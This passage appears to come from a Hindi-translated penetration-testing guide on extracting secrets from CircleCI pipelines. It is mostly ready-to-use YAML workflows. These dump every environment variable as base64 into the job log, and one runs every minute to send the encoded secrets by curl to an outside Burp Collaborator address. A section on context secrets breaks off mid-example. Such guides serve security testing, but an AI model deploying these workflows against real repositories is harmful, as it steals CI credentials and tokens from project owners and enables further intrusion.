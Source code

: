 सभी प्रोजेक्ट रहस्य हमेशा नौकरियों के वातावरण में सेट होते हैं, इसलिए बस env को कॉल करना और इसे base64 में छिपाना रहस्यों को **कार्यप्रवाह वेब लॉग कंसोल** में निकाल देगा:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
यदि आपके पास **वेब कंसोल तक पहुंच नहीं है** लेकिन आपके पास **रेपो तक पहुंच है** और आप जानते हैं कि CircleCI का उपयोग किया जा रहा है, तो आप बस **एक वर्कफ़्लो बना सकते हैं** जो **हर मिनट ट्रिगर होता है** और जो **गुप्त जानकारी को एक बाहरी पते पर भेजता है**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
#### Exfiltrate Context Secrets

आपको **संदर्भ नाम निर्दिष्ट करना होगा** (यह परियोजना के रहस्यों को भी बाहर निकालेगा):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

```